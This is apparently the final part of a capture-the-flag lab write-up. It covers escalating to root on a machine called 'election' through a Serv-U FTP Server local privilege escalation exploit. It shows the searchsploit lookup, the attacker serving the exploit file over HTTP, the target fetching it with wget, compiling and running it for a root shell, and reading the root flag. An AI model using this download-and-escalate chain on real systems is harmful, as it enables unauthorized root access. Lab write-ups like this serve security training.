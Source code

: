```
[01] Fri 04Sep20 10:34:20 - Loaded SQLite library.
[01] Fri 04Sep20 10:34:20 - FIPS 140-2 mode is OFF.
[01] Fri 04Sep20 10:34:20 - LICENSE: Running beyond trial period.  Serv-U will no longer accept connections.
[01] Fri 04Sep20 10:34:20 - Socket subsystem initialized.
[01] Fri 04Sep20 10:34:20 - HTTP server listening on port number 43958, IP 127.0.0.1
[01] Fri 04Sep20 10:34:20 - HTTP server listening on port number 43958, IP ::1
```
Here is an exploit I found on searchsploit.
```
$searchsploit Serv-U 15.1
----------------------------------------------------------------------------------------------------- 
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                          | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                          | multiple/local/47173.sh
----------------------------------------------------------------------------------------------------- 
```
I transfer `47009.c` to server and by executing we get root access.
```
$python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.8 - - [04/Sep/2020 12:20:58] "GET /47009.c HTTP/1.1" 200 -
```

```
love@election:/tmp$ wget http://192.168.1.2:8000/47009.c
--2020-09-04 12:19:50--  http://192.168.1.2:8000/47009.c
Connecting to 192.168.1.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [text/plain]
Saving to: ‘47009.c’

47009.c                           100%[============================================================>]     619  --.-KB/s    in 0s      

2020-09-04 12:19:50 (4.39 MB/s) - ‘47009.c’ saved [619/619]

love@election:/tmp$ gcc 47009.c -o exploit
love@election:/tmp$ ./exploit 
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)

```
# Flag
```
# cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6

```
